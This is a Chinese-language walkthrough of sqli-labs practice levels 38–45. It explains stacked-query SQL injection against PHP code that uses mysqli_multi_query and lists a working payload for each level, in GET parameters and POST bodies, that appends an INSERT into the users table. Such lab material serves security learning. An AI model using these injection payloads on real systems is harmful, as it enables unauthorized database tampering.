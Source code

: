# sqli-labs靶场(6)堆叠注入


sqli-labs靶场精简记录38-45

<!--more-->

### Less-38 GET- Stacked Query Injection - String

基于错误 GET 单引号字符型堆叠注入

vul

```
if (mysqli_multi_query($con1, $sql))
{
    
    ...
```



因为存在mysqli_multi_query函数，该函数支持多条sql语句同时进行。

使用分号，来执行两条命令

插入新数据

```
1';insert into users(id,username,password) values(38,'test','1')--+
```

### Less-39 GET -  Stacked Query Injection - Intiger 

基于错误 GET 数字型堆叠注入

```
?id=1;insert into users(id,username,password) values(39,'less39','test')--+
```

### Less-40  GET - BLIND based - String - Stacked

基于布尔 GET 单引号小括号字符型盲注堆叠注入

bypass

```
?id=1');insert into users values(40,'Less40','hello')--+
```

关闭了报错，但是可以根据页面是否有内容来判断，语句是否正确

### Less-41 GET - BLIND based - Intiger - Stacked

基于布尔 GET 数字型盲注堆叠注入

bypass

```
?id=1;insert into users values(41,'Less41','hello')--+
```

### Less-42 - POST - Error based - String - Stacked

基于存储 POST 单引号字符型堆叠注入

```
   $username = mysqli_real_escape_string($con1, $_POST["login_user"]);
   $password = $_POST["login_password"];
```

post发包

```
login_user=1&login_password=1';insert into users(id,username,password) values ('39','less30','123456')--+&mysubmit=Login
```

### less43 POST -Error based -String -Stacked with tiwst

POST型基于错误的堆叠变形字符型注入

bypass

```
1');insert into users values(43,'Less43','Less43')#
```

### Less-44 - POST - Error based - String - Stacked -Blind

基于存储 POST 单引号字符型盲注堆叠注入

bypass

```
1';insert into users values ('44','less44','hello')#
```

### less-45 POST - Error based - String - Stacked - Blind

基于存储 POST 单引号小括号字符型盲注堆叠注入

bypass

```
1');insert into users(id,username,password) values(45,'Less45','Less45')#
```


